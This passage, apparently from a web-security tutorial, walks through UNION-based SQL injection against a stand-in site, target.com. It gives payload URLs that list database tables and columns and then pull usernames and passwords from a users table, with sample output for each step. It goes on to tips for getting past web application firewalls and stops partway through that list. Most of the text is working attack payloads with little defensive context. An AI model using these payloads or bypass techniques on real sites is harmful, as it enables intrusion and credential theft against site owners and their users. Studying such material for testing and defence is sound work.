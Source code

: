 To list all tables from the database, query the `information_schema.tables`:

```sql
http://target.com/products.php?id=5' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema=database()--
```

#### Example Output:

```bash
users
orders
products
```

#### List Columns from a Specific Table

Once a table of interest is identified, list its columns:

```sql
http://target.com/products.php?id=5' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='users'--
```

#### Example Output:

```bash
id
username
password
email
```

### **Extract Data from the Database**

Finally, extract valuable data such as usernames and passwords from the identified tables.

#### Example Payload:

```sql
http://target.com/products.php?id=5' UNION SELECT 1, username, password FROM users--
```

#### Example Output:

```bash
admin | admin123
user1 | password1
```

### **Bypassing WAF and Filters**

Web Application Firewalls (WAFs) or input filters may block basic SQL injection payloads. To bypass these protections, try:

* **Case Variations**: `SELECT` → `sElEcT`
*   **Inline Comments**: Break keywords using comments (`/**/`):
